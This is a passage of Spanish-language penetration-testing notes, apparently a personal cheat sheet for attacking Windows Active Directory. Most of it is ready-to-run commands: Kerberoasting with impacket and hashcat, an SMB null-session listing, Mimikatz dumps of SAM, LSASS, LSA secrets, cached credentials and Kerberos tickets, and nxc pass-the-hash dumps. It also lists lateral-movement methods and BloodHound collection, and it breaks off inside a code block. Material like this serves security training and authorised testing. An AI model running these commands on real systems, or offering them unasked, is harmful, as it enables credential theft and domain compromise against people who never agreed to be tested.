 	impacket-GetUserSPNs -dc-ip $dcip $domain/$username -request -outputfile hash_kerberoast
	```
- Crackear hash para obtener contraseñas.
	```
	hashcat -m 13100 hash_kerberoast /usr/share/wordlists/rockyou.txt
	```

#### 💀 Null Sessions SMB
```bash
smbclient -N -L \\$target
```
#### 🚪 Puertos internos ocultos
```bash
netstat.exe -ano
```
#### ⬆️ [[#🪟 Escalada de privilegios en Windows]]

#### 🧪 Mimikatz
```powershell
# SAM (usuarios locales + hashes)
.\mimikatz.exe privilege::debug lsadump::sam exit > dumpSAM.txt

# LSASS (credenciales en memoria: texto plano, NTLM, etc.)
.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit > dumpLSASS.txt

# Secrets (LSA secrets + DPAPI keys + secretos de servicios)
.\mimikatz.exe privilege::debug lsadump::lsa /patch exit > secrets_lsa.txt

# Ekeys (claves de cifrado para Pass-The-Key / DPAPI)
.\mimikatz.exe privilege::debug sekurlsa::ekeys exit > ekeys.txt

# Cache (credenciales de dominio en caché, útiles sin conexión al DC - hay que craquear con hascat -m 2100)
.\mimikatz.exe privilege::debug lsadump::cache exit > cache.txt

# Tickets (Kerberos TGT/TGS para PTT, silver/golden ticket)
.\mimikatz.exe privilege::debug sekurlsa::tickets /export exit
```
#### nxc
A veces puede dar información que no da mimikatz
```bash
# SAM
nxc smb $target -u Administrator -H $(cat hashAdmin_gyoza) --sam --local-auth
# LSASS
nxc smb $target -u Administrator -H $(cat hashAdmin_gyoza) -M nanodump --local-auth
# Secrets y más info
nxc smb $target -u Administrator -H $(cat hashAdmin_gyoza) --lsa --local-auth
```
#### 🗝️ Uso de credenciales
- PTH, PTT, Pass-the-key, credenciales en texto plano.
- Intentar acceso vía:
    - RDP
    - WinRM
    - impacket-wmiexec
    - impacket-psexec
    - con `--local-auth` si procede
    - Utilizar usuarios como contraseñas
#### 📈 BloodHound
- Recolectar con `SharpHound`.
- Analizar relaciones para escalada o movimiento lateral.
#### Vulnerabilidades DC
- Comprobar vulnerabilidades clásicas del DC
	```bash